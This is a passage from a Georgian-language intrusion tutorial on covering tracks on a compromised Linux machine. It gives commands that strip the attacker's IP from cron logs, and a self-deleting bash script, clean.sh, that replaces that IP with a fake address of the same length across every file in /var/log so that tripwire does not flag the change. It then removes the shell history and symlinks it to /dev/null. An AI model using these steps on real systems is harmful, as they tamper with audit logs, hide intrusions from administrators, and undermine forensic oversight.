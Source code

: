 **ეტაპი 2: ჩვენი IP მისამართის სხვა IP მისამართით შენაცვლა**

```
root /var/log  # cat cron | grep -v 127.0.0.1 > file.tmp  # -v ნიშნავს 127.0.0.1-ს გარდა, ანუ ჩვენი IP მისამართი არ იქნება ახალ ფაილში.
root /var/log  # mv file.tmp cron
root /var/log  # cat cron.1 | grep -v 127.0.0.1 > file.tmp
root /var/log  # mv file.tmp cron.1
და ასე შემდეგ
```

რაც შეიძლება bash სკრიპტის მეშვეობით (clean.sh) ავტომატურად ვქნათ:

```
#!/bin/bash
IP="$1"     # ჩვენი IP მისამართი
IP2="$2"   # ყალბი IP მისამართი
cd /var/log/
ls -1 > list.tmp
for files in `cat list.tmp`; do
sed 's/'$IP'/'$IP2'/g' $files > tmp.$$    # ჩვენ IP მისამართს ვცვლით ყალბი IP მისამართით
mv tmp.$$ $files
done
rm -f list.tmp
cd
echo "Done"
rm -f $0    # სკრიპტის თითონვე წაშლა
```

რომ გამოიყენოთ ქენით:

```
root /var/log  # chmod a+x clean.sh
root /var/log  # ./clean.sh 127.0.0.1 145.7.4.11
Done
root /var/log  #
```

ეს ჩვენ IP-ს (127.0.0.1) შეცვლის სხვა IP მისამართით(145.7.4.11), თან ისე რომ ამტკიცებს რომ შეცვლილი IP მისამართი ზუსტად იგივე ციფრისგან შედგება (xxx.x.x.x) რომ ლოგ ფაილის ზომა არ შეცვალოს (თუ შეიცვალა, პროგრამა როგორიცაა tripwire მას გააშუქებს და ადმინიც გაიგებს).

IP მისამართის გაწმენდის შემდეგ იგივე ქენი შენი hostname-სთვის, თუ შენი IP მისამართს hostname-იც ემთხვევა, როგორც 127.0.0.1 არის "localhost".

**ეტაპი 3: .bash_history**

ამ ყველაფრის შემდეგ, შენი ნამოქმედარი მაინც იქმება შენახული ~/.bash_history ფაილში, მაგ ამ ფაილში ინფორმაცია იქნება შეტანილი მხოლოდ სისტემიდან გასვლის დროს.
ალბათ გინდა რომ რომ სისტემიდან გახვიდე და მერე შეხვიდე რომ ფაილის რედაქტირება მოახდინო, მაგრამ გასვლის დროს მაინც ახლიდან დაფიქსირდება შენი ნამოქმედარი.

შეგიძლია რომ .bash_history /dev/null-ს შეუერთო:

```
[user@localhost user]$ rm -f ~/.bash_history
[user@localhost user]$ ln -s /dev/null ~/.bash_history
```
